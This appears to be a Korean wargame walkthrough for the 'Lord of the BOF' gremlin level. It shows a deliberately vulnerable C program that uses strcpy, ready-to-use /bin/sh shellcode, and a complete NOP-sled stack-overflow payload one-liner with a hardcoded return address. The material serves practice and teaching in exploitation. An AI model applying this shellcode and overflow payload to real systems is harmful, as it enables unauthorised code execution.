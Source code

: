 # LOB 0~5
## gate
### code
```c++
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
### key point
간단한 bof이므로, buffer에 shellcode를 넣어준뒤, ret address에 buffer의 시작주소를 넣고 실행시켜주자.
### payload 구성하기
우선 사용한 shellcode는 다음과 같다.
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```
shellcode에 접근해주기 위해서, 앞에 NOP instruction에 해당하는 /x90을 넣어주자.
```bash
`python -c 'print"\x90"*232+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xbf"*4+"\x48\xf9\xff\xbf"'`
```